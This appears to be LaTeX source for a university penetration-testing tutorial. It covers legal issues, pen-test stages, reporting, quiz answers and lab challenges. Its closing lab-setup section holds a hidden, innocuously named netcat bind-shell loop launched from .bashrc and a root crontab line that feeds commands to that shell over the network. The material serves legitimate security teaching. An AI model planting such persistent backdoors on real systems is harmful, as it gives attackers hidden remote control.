% declare our document type
\documentclass[12pt]{extarticle}

%%%%%%%% PACKAGES NEEDED FOR THIS DOCUMENT

% allow us to put pictures in the document
\usepackage{graphicx}
% this line lets us use larger fonts
\usepackage{extsizes}
% this allows us to create "slides" in the document
\usepackage[many]{tcolorbox}
% this line lets us caption images inside the "slides"
% this is neccesary since the slide doesn't allow the use of
% \figure{} inside
\usepackage{caption}
\usepackage{enumerate}
% allows use of courier font
\usepackage{courier}
% make the table of contents links like people are used to
% the hidelinks parts hides link outlines
\usepackage[hidelinks]{hyperref}
% resize the margins
\usepackage[margin=1in]{geometry}
% use utf8 encoding
\usepackage[utf8]{inputenc}
% one of the other packages complained until I put this here
\usepackage[english]{babel}
% allow citations
\usepackage{cite}
% code listings
\usepackage{listings}
% fix single quote in listings
\usepackage{textcomp}
\usepackage{filecontents}
%\usepackage[noadjust]{cite}
\usepackage{graphicx}
\usepackage{hyperref}
\usepackage{forest,kantlipsum}
\usepackage{float}
\usepackage{etoolbox}
\usepackage{url}
\usepackage{cleveref}
\usepackage{xcolor}
\usepackage[labelfont=bf]{caption}

\usepackage{textcomp}
\usepackage{float}
\usepackage[T1]{fontenc}
\usepackage[final]{pdfpages}
% this package allows for greater control formating the basic list types.

%%%%%%%%%%% CUSTOM ENVIRONMENT SETUP

% declare a typesetting environment for code/emphasis
\newcommand{\code}[1]{\texttt{\bfseries#1}}
\newenvironment{codeblock}{\bfseries\texttt\bgroup}{\egroup\par}
% better declaration of font environment
%\DeclareTextFontCommand{\codetext}[1]{\code{#1}}
% declare a large font environment for use in the ''slides''
\newcommand{\instruction}[1]{\Large{#1}}
% font environment again
%\DeclareTextFontCommand{\instruction}{\instructionfont}
\newenvironment{instructionblock}{\Large\bgroup}{\egroup}
% declare a ''slide'' text box for use in the document
% the slide is a numbered \section{}
\newtcolorbox[auto counter]{slide}[3][]{%
colback=brown!5!white,colframe=brown!80!gray,height=3.72in,
title={\addcontentsline{toc}{section}{\thetcbcounter ~~ #2}\bf\Large\thetcbcounter ~ #2\hfill #3 \label{slide \thetcbcounter}\setcounter{section}{\thetcbcounter}}}
% declare a ''subslide'' text box for use in the document
% the subslide is a numbered \subsection{}
\newtcolorbox[auto counter,number within=section]{subslide}[3][]{%
colback=brown!5!white,colframe=brown!80!gray,height=3.72in,
title={\addcontentsline{toc}{subsection}{\thetcbcounter ~~ #2}\bf\Large\thetcbcounter ~ #2\hfill #3 \label{slide \thetcbcounter}}}
\renewcommand{\labelitemii}{$\circ$}
\lstset{basicstyle=\ttfamily,keywordstyle=\bfseries\color{blue!80!black},identifierstyle=\bfseries,stringstyle=\color{red},showstringspaces=false,commentstyle=\itshape\color{green!40!black},upquote=true}

% My Environments (keep these)
\newcommand{\ben}{\begin{enumerate}}
\newcommand{\een}{\end{enumerate}}
\newcommand{\bi}{\begin{itemize}}
\newcommand{\ei}{\end{itemize}}
\usepackage{titling}
\newcounter{questionEnumerate}
\newcounter{next}
\setcounter{next}{2}
\newcounter{prev}
\setcounter{prev}{0}
\usepackage{hyperref}
\hypersetup{
    colorlinks=true,
    linkcolor=blue,
    filecolor=blue,      
    urlcolor=blue,
    citecolor=blue,
}

%%%%%%%%% SET UP OUR TITLE PAGE


\begin{document}
\title{ Penetration Testing }
\author{Chris Ocker, Michael Braun}
\date{March 29, 2017 \\ \hyperref[changelog]{Version 1.1}} %\today
\renewcommand{\abstractname}{Executive Summary}
\begin{titlepage}
\maketitle
\pagenumbering{gobble}
\begin{center}

\includegraphics[scale=.5]{UofI}

\large{CS 439: Applied Security Concepts}

\vskip 40pt

\end{center}
\begin{abstract}

% ADD MORE TO THIS SUMMARY TO INCLUDE WHAT WE DO IN THE TUTORIAL%
% ADD MORE TO THIS SUMMARY TO INCLUDE WHAT WE DO IN THE TUTORIAL%

Penetration testing is a very important part of computer security. It allows a business to test their defense against potential attacks without the risk. The business hires a white hat hacker or organization to try and find vulnerabilities in the system and report back the details. Without the correct written permissions, penetration testing is illegal.

% ADD MORE TO THIS SUMMARY TO INCLUDE WHAT WE DO IN THE TUTORIAL%
\end{abstract}


\vfill
\begin{center}
	This work is licensed under a \href{https://creativecommons.org/licenses/by-nc-sa/4.0/legalcode}{Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License}.
	\vskip 10pt
	
\includegraphics[scale=.5]{cc}
\end{center}

\end{titlepage}

%%%%%%%%%% TABLE OF CONTENTS

\pagebreak
\tableofcontents

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%    BEGINNING OF ACTUAL DOCUMENT
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\pagebreak
\pagenumbering{arabic}
\setcounter{section}{1}
\begin{slide}{Requirements}{\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}		
		\begin{enumerate}
        \item Experience in Windows and Linux
		\item Knowledgeable in Kali tools
        \item Machine capable of running a virtual environment capable of running 7 virtual machines.
        \item Full details found \hyperref[fig:NetworkMap]{here}
		\end{enumerate}
	\end{instructionblock}
\end{slide}
%\vfill

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Problem Statement}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}		
		Knowing how to perform a penetration test is a vital skill for anyone in a cyber security position. This tutorial is designed to give you the information needed to do that and runs you through a mock penetration test.
	\end{instructionblock}
\end{slide}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Day 1: Into \& Permanence}{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	%\vskip 10 pt
	\begin{instructionblock}
    	\begin{enumerate}
        	\item Stage 1: Pre-engagement
            \item Stage 2: Information gathering
            \item Stage 3: Threat modeling
            \item Stage 4: Vulnerability analysis
            \item Stage 5: Exploitation
            \item Stage 6: Post-exploitation
            \item Establish permanence
        \end{enumerate}
        \vspace{-.1in}
        \begin{small}
        	Stages 1-6 coming from\cite[Chapter 0]{Ref:Weidman}
        \end{small}
	\end{instructionblock}
\end{slide}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Day 2: Exploitation and Report}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	%\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
        	\item Stage 7: Reporting
			\item Re-enter the system
            \item Create a full network map
            \item Find and recover requested information
            \item Plant file onto the Industrial Control System
            \item Remove traces
           	\item Write Report
		\end{enumerate}
        \vspace{-.1in}
        \begin{small}
        	Stage 7 coming from\cite[Chapter 0]{Ref:Weidman}
        \end{small}
	\end{instructionblock}
\end{slide}
%\vfill

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Backgound: History of Penetration Testing}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
			\item Early 1960's and Tiger Teams
            \item James P. Anderson
            \item Multics and Unix
            \item SANTA aka. SATAN
            \item On-demand Pen testing
		\end{enumerate}
	\end{instructionblock}
\end{slide}
%% http://resources.infosecinstitute.com/the-history-of-penetration-testing/
\begin{enumerate}
	\item White Hat hackers have been trying to hack into their own systems since the 1960's to find out if their information was secure. \cite{Ref:Background1}
    \item In 1967 the Joint Computer Conference got together and computer security experts warned businesses of known attack vectors. \cite{Ref:Background1}
    \item From this conference the Willis Report was made outlining major flaws in security systems. \cite{Ref:Background1}
    \item With this report the government and businesses put groups of white hats together called ``Tiger Teams'' to test their systems, which for the most part failed miserably. \cite{Ref:Background1}
    \item James P. Anderson was a major figure in penetration testing and in 1972 he released a report outlining steps for Tiger Teams to test systems for vulnerabilities. \cite{Ref:Background1}
    \item Anderson again published a paper on how to create a program that monitors a system for potential attacks. \cite{Ref:Background1}
    \item Multics was an OS that came out of this push for security. However It was not suitable for everyone and especially two of the designers. Those designers went on to create Unics (Unix). \cite{Ref:Background1}
    \item SATAN was a security administration tool in the 90's that automatically tested systems for potential vulnerabilities. SATAN was later replaced by tools like Nmap and Nessus. \cite{Ref:Background1}
    \item One of the best defenses we have now is official pen testing companies that can be contracted for on-demand pen testing. \cite{Ref:Background1}
\end{enumerate}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Legal Issues}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item Pre-engagement and Contract
            \item Scott Moulden, Stefan Puffer, and Bret McDaniel
            \item Damage Control
            \item Indemnification
            \item Hack-back
            \item Scope of Work
		\end{enumerate}
	\end{instructionblock}
\end{slide}
%% http://www.securitycurrent.com/en/analysis/ac_analysis/legal-issues-in-penetration-testing
\begin{enumerate}
\item Statute 18 USC 1030 makes it a crime to access or attempt to access a computer or computer network without authorization or in excess of authorization. This of course is problem for penetration testers since it is there job to try and access systems. This is why the pre-engagement phase is so important. \cite{Ref:Legal1}
\item Some people who had insufficient pre-engagements are Scott Moulden, Stefan Puffer, and Bret McDaniel. \cite{Ref:Legal1}
\item Scott Moulten was asked by city in Georgia to conduct a penetration test. After he ran a port scan and throughput test, he found significant vulnerabilities so he reported them to the county(his employer). The city was so embarrassed by the findings they searched and seized his computer and arrested him for interrupting the system infinitesimally. He was charged with a felony and sent to prison. \cite{Ref:Legal1}
\item Stefan Puffer was performing a War Driving exercise for a business and after the initial scan he found that one of the routers was misconfigured allowing anyone to connect to the network. After this discovery he stopped the test, but later the business found pornography on one of the systems. They blamed Stefan and he was arrested. The jury acquitted Stefan in about 15 minutes. \cite{Ref:Legal1}
\item Bret McDaniel was a former employer of a company who had a significant vulnerability in their "secure" mail server. The former employer refused to fix it and continued to advertise it as secure. Bret took action and started messaging users informing them of the vulnerability. Bret was convicted and served 16 months in jail until the DoJ conceded saying the conviction was wrongful. \cite{Ref:Legal1}
\item You need to let the customer know of any and all possible damage that can come about and put it all on paper. This way the client can't attempt to sue you on those grounds. \cite{Ref:Legal1}
\item You need to discuss what if scenarios that put you in a bad spot. Wrong ip range specified, FBI/DoD incursions. \cite{Ref:Legal1}
\item The customer may want you to hack an attacker or to hack you during the penn test. This is just as illegal and if done without the proper permission, will land you or the customer in prison. \cite{Ref:Legal1}
\item Define your assumptions as a pen tester. Be sure to have the customer clearly define what systems and services are open to be tampered with. \cite{Ref:Legal1}
\end{enumerate}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Legal Issues Continued}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item Professionalism
            \item Licensing and Certification
            \item Venue and Jurisdiction
            \item Privacy
            \item Data Ownership
            \item Duty to Warn
		\end{enumerate}
	\end{instructionblock}
\end{slide}
%% http://www.securitycurrent.com/en/analysis/ac_analysis/legal-issues-in-penetration-testing
\begin{enumerate}
\item What level of pen test are you performing? Express what you expect to find and document everything. Keeping record of what you don't find is just as important as the things you do. \cite{Ref:Legal1}
\item Some states require you to have certain certifications to perform pen tests. for example if your data is to be used in a court case, you need to be a Personal Investigator certification. \cite{Ref:Legal1}
\item The place you perform the attack and the location of systems is important to know because states have variations in their rules for pen testing. An example of this is performing an pen test from South Dakota for a company in Maryland who has servers involved located in Florida. \cite{Ref:Legal1}
\item The privacy of the results need to be discussed as well. What information can be released to who. FERPA information specifics not included in the report. How much you can say about previous jobs. \cite{Ref:Legal1}
\item Intellectual property ownership of information gathered from the pen test. Data, Network map, etc. belongs to the company, but what about if you found a new technique to use in pen tests. \cite{Ref:Legal1}
\item If you give the customer complete ownership to the report this can create a problem. What if you find a vulnerability that effects third parties or customers. What if you find a zero day exploit that could effect all systems of the same type. \cite{Ref:Legal1}
\item All of this comes down to what's in the contract and what the courts will enforce. \cite{Ref:Legal1}
\end{enumerate}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Pre-engagement - Customer negotiation}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item Who's
            \item What's
            \item When's
            \item Where's
            \item Why's
            \item How's
		\end{enumerate}
	\end{instructionblock}
\end{slide}
\label{Q1}
\begin{enumerate}
\item Find out who the customer is and what their business does. Are there any third parties?
\item What systems are you pen testing? What are the IP ranges? Are there any sensitive systems? What intellectual property is yours?
\item Are there any time restrictions on the pen test? What hours are you able to attack? What dates can you perform attacks?
\item Be aware of the location of all the devices. What laws to you have to exempt yourself from? Where is the attack coming from?
\item Why does the customer want to do the pen test? What outcomes do they expect?
\item How can you attack the systems? What limitations are there? Social engineering?
\end{enumerate}
\begin{small}
	The above questions were created with \cite[Chapter 0]{Ref:Weidman}, \cite{Ref:Sample1}, \cite{Ref:Sample2}, and \cite{Ref:Legal1} in mind.
\end{small}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Pre-engagement - Contract}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item Include everything from the negotiation with the customer
            \item Be specific
            \item Indemnification and intellectual property
            \item Get it revised by a lawyer
		\end{enumerate}
	\end{instructionblock}
\end{slide}
\begin{enumerate}
\item The contract is your saving grace in case of legal storm. \cite[Chapter 0]{Ref:Weidman} It's better to have a battleship than an inner tube.
\item Being specific will help you if the pen test goes sour. \cite{Ref:Legal1}
\item The contract should also protect you from disasters and protect your IP. \cite{Ref:Legal1}
\item Lawyers know the ins and outs of all things legal. A little payment to review a document is a better alternative than an even bigger fine or prison time.
\end{enumerate}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Information Gathering}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item Browse the web
            \item \texttt{whois} and \texttt{nslookup}
            \item Information gathering tools
		\end{enumerate}
	\end{instructionblock}
\end{slide}
\begin{enumerate}
\item Go to the company's website. Google employees. Create wordlists for John the Ripper. \cite[Chapter 5]{Ref:Weidman}
\item The \texttt{whois} and \texttt{nslookup} can find possible attack surfaces. Mail servers, Web servers, other public IPs. \cite[Chapter 5]{Ref:Weidman}
\item There are tons of tools to find out more information. Nmap, TheHarvester, and Maltego are just a few. \cite[Chapter 5]{Ref:Weidman}
\end{enumerate}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Threat Modeling}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item Think of possible attack vectors
            \item What services are the most critical to the company
            \item Critical Systems
		\end{enumerate}
	\end{instructionblock}
\end{slide}
\label{Q2}
\begin{enumerate}
\item The goal for this stage is to think like an attacker. It's good to make a plan of attack rather than just forming a plan spontaneously. Think of specific systems that you know will give you what you want. For example a domain controller is a potentially a good target to get access to a specific computer. \cite[Chapter 0]{Ref:Weidman}
\item From your information gathering phase find out what would really devastate the company. Hospital->disclosure of medical records; Factory->disabling the Industrial control system. \cite[Chapter 0]{Ref:Weidman}
\item Critical Systems are systems that people depend on and are the primary target for international attacks. Some examples are the Power grid, water treatment, and transportation. \cite{Ref:CriticalSystems}
\end{enumerate}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Vulnerability Analysis}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item Determine how successful exploits might be
            \item Run vulnerability scanners
            \item Critical thinking
		\end{enumerate}
	\end{instructionblock}
\end{slide}
\begin{enumerate}
\item You may only get one shot so you should consider all the options and choose the best from the pack. \cite[Chapter 6]{Ref:Weidman}
\item Nmap, Nikto, Metasploit, and Wireshark are just the ones we have covered in class. And much more. \cite[Chapter 6]{Ref:Weidman}
\item Although tools are very useful and save you from doing a lot of the hard work, you still need to use your head. These tools aren't 100\% right all the time so you should take their results with a grain of salt. \cite[Chapter 6]{Ref:Weidman}
\end{enumerate}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Questions 1}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item Name one Who, What, When, Where, Why, and How question for pre-engagement.
            \item What kinds of information do you want to look for in the Information gathering stage?
            \item Give an example of a Critical System.
            \item What other vulnerability analysis tools are there?
		\end{enumerate}
	\end{instructionblock}
\end{slide}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Exploitation}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item Exploiting previously thought of vulnerabilities
            \item Surprisingly easy sometimes
            \item Payloads
		\end{enumerate}
	\end{instructionblock}
\end{slide}
\begin{enumerate}
\item Now it's time to bring all of your analysis together. Try exploiting the vulnerabilities you came up during the vulnerability analysis stage. \cite[Chapter 8]{Ref:Weidman}
\item Some exploits may be surprisingly easy. Things like default passwords and unprotected ports are easy to take advantage of. \cite[Chapter 8]{Ref:Weidman}
\item Choosing the right payload is important for the attack. Tools like Metasploit have numerous payloads and you want to choose one that does what you want. For example you don't want to brick a system that you need information from. Also something like that will likely get you in trouble with the customer. \cite[Chapter 8]{Ref:Weidman}
\end{enumerate}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Post-exploitation}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item The meat of the pen test
            \item Retrieve and plant data
            \item Elevate privileges
            \item Pivoting
		\end{enumerate}
	\end{instructionblock}
\end{slide}
\begin{enumerate}
\item This is where you interpret the meaning of the pen test. What damage can you cause to the system. \cite[Chapter 0]{Ref:Weidman}
\item Integrity and Confidentiality are affected with retrieval of information and planting/sabotaging information. Look for intriguing files, mess with them and create your own. \cite[Chapter 13]{Ref:Weidman}
\item Once on a machine you likely won't have root/admin privileges so elevating your privileges is an obvious next step.\cite[Chapter 13]{Ref:Weidman}
\item Sometimes the machine you exploit doesn't hold any valuable information so you can try to use it as a pivot to get to a more important machine. \cite[Chapter 13]{Ref:Weidman}
\end{enumerate}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: What Notes to Take}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item All the information you found in each stage of the penetration test
            \item Keep a precise timeline of everything you did
            \item Note all the tools and commands you used
            \item Mention the things you didn't find
		\end{enumerate}
	\end{instructionblock}
\end{slide}
\begin{enumerate}
\item Splitting this information up is important because it gives the client options for mitigating the particular attack. The information achieved from the information gathering stage is extra important to keep track of so that the client can erase or change their footprint if need be. Information you gather from other stages often needs to be there, but it just wasn't secure.
\item Having a timeline will coincide with any logs that may have been taken during the attack. This helps the client feel confident that they aren't just letting someone reign free on their system.
\item You want to have the pen test be repeatable just like a scientific experiment and the tools and commands are required for that.
\item Keeping track of the things the client and you expected to find is just as important.
\end{enumerate}
\begin{small}
	The content above was written with \cite{Ref:Sample1}, \cite{Ref:Sample2}, and \cite[Chapter 0]{Ref:Weidman} in mind.
\end{small}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Challenge 1: Establish Persistence}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item Establish permanence from 192.168.2.3
		\end{enumerate}
        \textbf{Deliverables:} A reverse shell or some other backdoor back into the network that does not depend on the phone.\\\\
        \textbf{Duration:} 60 min.
	\end{instructionblock}
\end{slide}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Questions 2}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item What is pivoting?
            \item Give a brief description of the pre-engagement, information gathering, and threat modeling stages.
            \item Give a brief description if the vulnerability analysis, exploitation and post-exploitation stages.
            \item What was the most challenging part about this lab so far?
		\end{enumerate}
	\end{instructionblock}
\end{slide}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Info: Reporting}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item Executive Summary
            	\begin{enumerate}
            		\item Background, Overall Posture, Risk Profile, General Findings, Recommendation Summary, Strategic Road Map
            	\end{enumerate}
            \item Technical Report
            	\begin{enumerate}
            		\item Introduction, Information Gathering, Vulnerability Assessment, Exploitation, Post-Exploitation, Risk/Exposure, Conclusion 
            	\end{enumerate}
		\end{enumerate}
	\end{instructionblock}
\end{slide}
\begin{enumerate}
\item A summary for the higher ups. Don't use any jargon and keep the details to a minimum.\cite[Chapter 0]{Ref:Weidman}
\item \textbf{Background:} Why you're doing the test and definitions. \textbf{Overall Posture:} Effectiveness of the test, issues found and possible causes for them. \textbf{Risk Profile:} Rank the risk for each vulnerability and explain why. \textbf{General Findings:} Statistics and metrics of the findings. \textbf{Recommendation Summary:} High level description on how to resolve the issues. \textbf{Strategic Road Map:} Short-term and long-term goals.\cite[Chapter 0]{Ref:Weidman}
\item The nitty gritty details that are meant to be read by security technicians and system administrators. Where the specific note taking comes in handy.\cite[Chapter 0]{Ref:Weidman}
\item \textbf{Introduction:} summarization of the guidelines and discussions from the pre-engagement. \cite[Chapter 0]{Ref:Weidman}
\textbf{Information Gathering, Vulnerability Assessment, Exploitation, and Post-Exploitation:} Specific details from each stage of the penetration test. \textbf{Risk/Exposure:} Quantitative assessment of risks and estimates on likelihood and potential damage. \textbf{Conclusion:} Final overview of the penetration test.\cite[Chapter 0]{Ref:Weidman}
\end{enumerate}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Activity: Review Penetration Test Reports}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
        	\item Review the penetration test reports provided
            \item  \url{https://github.com/juliocesarfort/public-pentesting-reports/blob/master/KudelskiSecurity-X41/Kudelski-X41-Wire-Report-phase1-20170208.pdf}  \cite{Ref:Sample1}
            \item \url{https://www.offensive-security.com/reports/sample-penetration-testing-report.pdf}\cite{Ref:Sample2}
		\end{enumerate}
	\end{instructionblock}
\end{slide}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Challenge 2: Post Exploitation}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item Plant a file called badfile on 192.168.3.2
		\end{enumerate}
        \textbf{Deliverables:} Note in your log where the file was placed and how you achived the task.\\\\
        \textbf{Duration:} 60 min.
	\end{instructionblock}
\end{slide}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Questions 3}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item What information belongs in the Recommendation Summary, and Risk/Exposure sections of the Report?
            \item What are the 7 stages of penetration testing?
            \item Which of the sample reports looks better? Why?
		\end{enumerate}
	\end{instructionblock}
\end{slide}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Challenge 3: Mitigations and Report}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		\begin{enumerate}
            \item Implement mitigations working backwards and write the report
		\end{enumerate}
        \textbf{Deliverables:} 
        \begin{enumerate}[noitemsep,topsep=0pt]
        	\item Pentest Report.
            \item Your notes/log taken during the pentest and implementation of mitigations.\\
        \end{enumerate}
        \textbf{Duration:} Unlimited
	\end{instructionblock}
\end{slide}

\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Conclusion}
{\hyperref[slide \theprev]{\textless}\hyperref[slide \thenext]{\textgreater}}
	\vskip 10 pt
	\begin{instructionblock}
		Penetration Testing is much more than just "Hacking the mainframe". It is an intricate task for both the tester and the client and needs to be well thought out before enacted. With that said, it is a necessary exercise for businesses to stay safe from cyber threats.
	\end{instructionblock}
\end{slide}

\vfill
\pagebreak
\stepcounter{next}
\stepcounter{prev}
\begin{slide}{Appendix: Solutions and Change-log}{\hyperref[slide \theprev]{\textless}}
	\begin{instructionblock}
		\begin{enumerate}
			\item {Solutions to the questions}
			\item {Change-log}
		\end{enumerate}
	\end{instructionblock}
\end{slide}

\textbf{Questions 1}
\ben[noitemsep,topsep=0pt]
	\item Name one Who, What, When, Where, Why, and How question for pre-engagement. \textbf{Answers will vary. See \href{Q1}{here}}.
	\item What kinds of information do you want to look for in the Information gathering stage? \textbf{Names, Passwords, IPs, words for wordlists}.
	\item Give an example of a Critical System. \textbf{Answers will vary. See \href{Q2}{here}}.
	\item What other vulnerability analysis tools are there? \textbf{Answers will vary. Armitage, Nessus, XAMPP}\\
\een
\textbf{Questions 2}
\ben[noitemsep,topsep=0pt]
	\item What is pivoting?
    \item Give a brief description of the pre-engagement, information gathering, and threat modeling stages.\\ \textbf{Pre-engagement: Setting the rules of engagement and creating a contract.\\ Information Gathering: Look for places to start and finding the companies digital footprint.\\ Threat Modeling: Thinking of all realistic attack vectors}
    \item Give a brief description if the vulnerability analysis, exploitation and post-exploitation stages.\\ \textbf{Vulnerability Analysis: Actively searching for vulnerabilities using tools and critical thinking.\\ Exploitation: Getting inside the system using a vulnerability.\\ Post-Exploitation: Calculating potential damage to the system.}
    \item What was the most challenging part about this lab so far? \textbf{Feedback and self-reflection}\\
\een
\textbf{Questions 3}
\ben[noitemsep,topsep=0pt]
	\item What information belongs in the Recommendation Summary, and Risk/Exposure sections of the Report? \textbf{Recommendation Summary: High level description on how to resolve issues.\\ Risk/Exposure: Quantification of vulnerabilities using likelihood and potential damage as metrics.}
    \item What are the 7 stages of penetration testing? \textbf{Pre-Engagement, Information Gathering, Threat Modeling, Vulnerability Analysis, Exploitation, Post-exploitation, and Reporting}
    \item Which of the sample reports looks better? Why? \textbf{Open to interpretation. Mostly used to get the audience to take a closer look.}\\
\een
\pagebreak
\label{changelog}
\noindent\textbf{Changelog:}\\
\begin{tabular}{ |p{1cm}|p{3cm}|p{3cm}|p{5cm}|  }
\hline
\multicolumn{4}{|c|}{Penetration Testing} \\
\hline
\texttt{Ver.} & \texttt{Date} & \texttt{Authors} & \texttt{Changes} \\
%\begin{tabular}{|p{2cm}|p{3cm}|p{10.4cm}|}
%\hline
%Version & Authors & Changes\\
\hline
v1 & Mar. 29th 2017&Chris Ocker \& Michael Braun & Original Works\\
\hline
v1.1 & Apr. 30th 2017&Chris Ocker \& Michael Braun & Edited format of challenges to have clear deliverables. Changed format of changelog to include date and title.\\
\hline
\end{tabular}\\
\vspace{1in}
\pagebreak
\begin{Large}
\\Solution and Setup. Hide for the tutorial
\begin{itemize}
\item Attacker: Kali 4.6 With TightVNC installed and a file with the following information:
\begin{itemize}
\item Planted phone's ip and open SSH port
\item Target machine ip (ICS)
\end{itemize}
\item Router: VyOS Helium 1.7 with the modified config.boot (file included as configboot.txt)
\item Walter's Workstation: Windows 7 Service pack 1 with a TightVNC host running and a preconfigured remote desktop connection to the ICS
\item Domain Controller: Windows Server 2012 R2 6.2
\item Walter's Laptop: Windows XP Professional with Service pack 1 that has a file containing:
\begin{itemize}
\item The TightVNC connection information to log into his workstation
\end{itemize}
\item Planted Phone: Android 4.4 with Kali installed, the following added to the terminal initial command under preferences:
\begin{lstlisting}[numbers = left, breaklines = true, frame = single]
su -c "busybox ifconfig eth1 72.143.92.234 up"; su -c "busybox ifconfig eth0 192.168.5.105 up"; su -c "/data/data/ru.meefik.linuxdeploy/bin/linuxdeploy shell"
\end{lstlisting}
and the following added to the .bashrc in the mini-kali:
\begin{lstlisting}[numbers = left, breaklines = true, frame = single]
service ssh start > /dev/null
route add -net 98.43.26.5 netmask 255.255.255.255 dev eth1
route add -net 0.0.0.0 gw 192.168.5.1 dev eth0
\end{lstlisting}

The following was added to the .bashrc in the mini-kali inside the android:
service ssh start > /dev/null
route add -net 98.43.26.5 netmask 255.255.255.255 dev eth1
route add -net 0.0.0.0 gw 192.168.5.1 dev eth0
\item System Admin: Kali 4.6 with TightVNC, the following added to the .bashrc,:
\begin{lstlisting}[numbers = left, breaklines = true, frame = single]
ifconfig eth0 192.168.2.3 up
route add -net 0.0.0.0 gw 192.168.2.1 dev eth0
/root/testscript.plsignore.pls > /dev/null &  and hidden file with:
\end{lstlisting}
the following added to a file called testscript.plsignore.pls:
\begin{lstlisting}[numbers = left, breaklines = true, frame = single, language = bash]
#!/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/root/
while true; do
	if netstat -l | grep '12345'
	  then echo
	  else nc -l -p 12345 -e /bin/bash
	fi
done
\end{lstlisting}
and a file containing the credentials to an operator account on VyOS
\item ICS: Windows XP Professional with Service pack 1
\item Webserver: Ubuntu 16.04 SEED with a root level crontab command,:
\begin{lstlisting}[numbers = left, breaklines = true, frame = single]
* * * * * echo "/bin/echo 'boop' >> /root/log.log" | nc 192.168.2.3 12345
